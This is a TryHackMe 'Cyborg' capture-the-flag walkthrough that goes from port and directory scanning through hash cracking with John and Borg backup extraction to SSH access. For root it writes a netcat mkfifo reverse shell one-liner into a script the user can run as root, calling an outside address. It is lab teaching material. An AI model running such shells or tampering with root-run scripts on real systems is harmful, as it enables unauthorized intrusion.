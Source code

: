 TryHackMe <br>
Cyborg
---

The nmap scan shows 2 ports open, SSH and an Apache web server. <br>
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/be6269fc-1484-46ec-ad10-2bff201b7d2b)

Gobuster revealed some directories of interest. <br>
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/77fd301e-416c-44ee-8634-88ba518e19cf)

I checked out the first one, */admin*, and poked around for some low hanging fruit and ran some more scans on those directories. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/4d858d70-bcb3-4aeb-909c-5566f555afdb)

The first wordlist I used didn’t find anything, so I tried a different wordlist and got a return of */squid*. <br>
After that I ran another one and found another directory! <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/3d3d84a1-de4d-4519-81e0-a6de89af56a0)

Back on the */admin* page there were a few things I found; there was an archive I could download and a chat from some of the users. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/1d096604-ec73-4a26-82ef-faca13f08134)

Squid is mentioned, which is very interesting since I found a */passwd* directory from the scan earlier. <br>
Before I investigated that, I wanted to look at the archive file I downloaded. <br>
```
strings archive.tar
```
That returned some good info for me. <br>
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/d223d5f0-0bc3-4387-a066-4e1cccf427f6)

I’ll save that in a file for later use, if need be. <br>
On to the */squid* directory <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/83555497-3da5-474d-af49-576880581918)

<b>passwd</b> showed this: <br>
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/60071c34-78b2-4e7c-bdf7-75686853e2b1)

<b>squid.conf</b> showed this: <br>
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/96b649dc-4c6c-47da-abac-262b74eb5c71)

I ran the <b>passwd</b> file I saved through John and got a password from the hash. <br>
```
sudo john passwd --wordlist=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/137bcda2-8c76-4723-bd1a-b0d957618c0b)

After opening up the archive and digging around one of the files mentioned it being a *Borg backup* <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/b1ee79d3-240d-4c09-b184-751535e2d98f)

I installed `Borg` and read up on how to extract files. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/3fb93d29-2bb9-44f7-9e39-1d440d4d3044)

Back in the */home* directory of the extracted archive, a new folder named <b>Alex</b> showed up with a text file inside. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/0f82a403-0483-4130-9553-dbf8d95f6679)

*NOTE: (Alex was one of the people in the chat on the webpage)* <br> <br>
Time to see if I can SSH with those credentials! <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/b9fa3e1e-c23b-4b0f-819d-72907d4b1f6b)

Since Alex can run that as root, I’ll look at that in a minute after I grab the first flag. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/3b614823-660e-4fdc-9890-a15a22e9f2f9)

Looking into the directory where the file Alex can run as root is at, it didn’t show we had write permissions. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/c829a9fb-124f-4031-b719-0920c58e4879)

I was wanting to put a reverse shell code in there so I had to change the permissions. <br>
```
chmod +w backup.sh
```
After that was done, I put in my reverse shell code: <br>
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 >/tmp/f
```
Fired it off and I was in! <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/434734d8-f19f-4436-b6e8-1e9debfb9d0a)

Pwned this box!


















